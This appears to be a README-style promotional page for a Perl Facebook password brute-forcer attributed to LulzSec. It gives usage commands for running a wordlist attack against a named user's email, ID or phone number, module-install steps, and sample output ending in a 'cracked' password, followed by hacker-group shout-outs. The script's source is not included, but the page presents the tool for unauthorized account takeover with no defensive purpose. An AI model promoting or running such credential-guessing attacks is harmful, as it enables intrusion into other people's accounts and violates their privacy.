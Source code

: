 
Join us for more tools : https://discord.gg/UUs8eb

Description:

LulzSec FB Cracker ToolKit Bruter V0.1 tool written in perl to perform a dictionary-based attack on a specific Facebook user
through HTTPS.
 This tool coded Only For The Lulz ;)
 
 Usage:
 perl LulzFBKill.pl email/id wordlist ;
 
 login could be either a users email address or profile name / Phone number / ID.
 

 #Module Requirements:
 # apt clean
 # apt update
 Install module if missing:
 # perl -MCPAN -e 'install Net::SSLeay'




#perl LulzFBKill.pl {fb-id}or{email@facebook.com} wordlist Or #perl LulzFBKill.pl +39783987890 wordlist

 [+] Lulz Start Cracking THF-Targe using ID or EMail or Phone numnber ...
 

 [-] test -> Failed >> Check Your password List and Try agine
 
 [-] test123 -> Failed >> Check Your password List and Try agine
 
 [-] testtest -> Failed >> Check Your password List and Try agine
 
 [-] testest123 -> Failed >> Check Your password List and Try agine
 
 [-] qwerty -> Failed >> Check Your password List and Try agine
 
 [-] azerty -> Failed >> Check Your password List and Try agine
 
 [-] password -> Failed >> Check Your password List and Try agine
 
 [-] password123 -> Failed >> Check Your password List and Try agine
 

 [+] Luulz!! Pass Cracked => Pass is Lu!z53C

#Respect To Yall #AnonsFreinds #LulzSec #RedCult #IntelSec #WolfSec #Sec3viles #AnonGhots
#Greetz to #Mark #Danksithanon #Tamara #Tan #Richard #Goies #Mr.G #Bram #Neo #UshankaKid
